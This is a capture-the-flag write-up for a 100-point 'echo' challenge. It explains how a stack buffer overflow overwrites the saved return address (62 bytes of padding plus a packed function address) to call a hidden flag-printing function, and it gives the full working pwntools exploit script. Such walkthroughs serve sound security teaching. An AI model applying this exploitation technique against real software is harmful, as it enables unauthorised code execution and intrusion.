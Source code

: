 # echo 100 pts

##Overview
After looking in a disassembler, I discovered there was a
method that will open flag.txt and print it. Only issue
is that the method isn't called during execution.
Our goal is to change that. Given this was only a 100 pts 
and it was in the exploit category, I imediately thought
buffer overflow.

Using trial and error (and then later math in disassembler)
I was able to calculate that the program was only allocating
58 bytes of space on the stack for the input entered by the
user. Byte 58 - 62 would overwrite the ebp on the stack and
then 62 - 66 would overwrite the stored return address of
current method 'test'. Technically the "\n" is also written
to the stack but it doesn't overflow anything important here.

The goal was to overwrite the eip register with the address 
of the method that would display the flag.

##Code
pwntools is great. You can set the context at the start
and it will pack everything and even generate shellcode
(not used here) that will work on that machine. No more
worrying about endianess or 64 bit vs 32 bit or compiling
custom shellcode.
Installation of pwntools is a simple pip install pwntools.
This should work even when they take servers down. There will
need to be a local file called flag.txt, and pwntools will 
attach your process of echo to a local port to simulate a 
remote exploit.
```python
from pwn import *
context(arch = 'i386', os = 'linux')

if 'HOST' in args:
    r = remote(args['HOST'], int(args['PORT']))
else:
    l = listen(0)
    l.spawn_process(['./echo'])
    r = remote('localhost', l.lport)
```

Addr is the address of the method that opens and prints flag.txt. 
This can be found using the free version of Ida, gdb or I personally
used Hopper. Radare2 also seems promising.
```python
overflow = "a"*62
addr = 0x0804857d 
```
Now let's construct the payload and send it. Let's thank pwntools for
making this easy
```python
overflow += p32(addr)

# Send our exploit. Don't forget the newline..
r.send(overflow + "\n")
print "[*] Overflow sent."
```
This is where I made a rookie mistake. The first thing
returned is the result that includes echo. recv() only
reads until it receives a newline. To get the flag you have
to call recv() twice.
```python
r.recv() # garbage echo'd back to us

# Now get the flag, display it and feel accomplished.
flag = r.recv()
print "[*] Flag: " + flag
r.clean()
r.close()
# RyanAiden
```
